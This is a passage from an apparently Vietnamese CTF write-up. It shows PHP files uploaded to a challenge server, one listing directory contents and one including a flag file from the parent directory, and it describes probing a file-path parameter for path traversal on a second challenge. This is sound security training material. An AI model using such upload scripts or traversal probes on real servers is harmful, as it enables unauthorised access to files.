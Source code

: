     ```php
    <?php
        $cur = dir(".");
        $par = dir("..");

        echo "Current:<br>";
        while (($file = $cur->read()) !== false){
        echo "filename: " . $file . "<br>";
        } 

        echo "Parent:<br>";
        while (($file = $par->read()) !== false){
        echo "filename: " . $file . "<br>";
        } 
        $cur->close();
        $par->close();
    ?> 
    ```

- Upload lên và mở file, thu được danh sách file trong thư mục hiện tại và thư mục cha, để ý thấy trong thư mục cha có file `fl@@@g_1337_ahiahi.txt`, đến đây thì path traversal cũng được, tạo file PHP cũng được:

    ```php
    <?php
        echo "<p>";
        include '../fl@@@g_1337_ahiahi.txt';
        echo "</p>";
    ?>
    ```

- Dù là cách nào thì cuối cùng cũng thu được flag:

    ![flag](img/IAW302_10.png)

# PRP201

> Đây là challenge mà mình đã đoán được một phần, nhưng vẫn mất gần 1 ngày để giải ra :< Một sản phẩm đến từ anh Khoa (matuhn)

- Truy cập vào bài thì thấy có 5 đường dẫn đến 5 file txt

- Thử truy cập vào một trong số đó sẽ thấy URL có dạng: `http://139.180.208.121:8001/getData?f=/fus/data/1.txt`, liệu đây có phải path traversal? có vẻ như các anh ra đề năm nay khá thích path traversal

- Mò mẫm một lúc thì mình tìm được file `flag.txt` cũng trong `/fus/data` :D với nội dung như sau:

    ![flag.txt](img/PRP201_1.png)
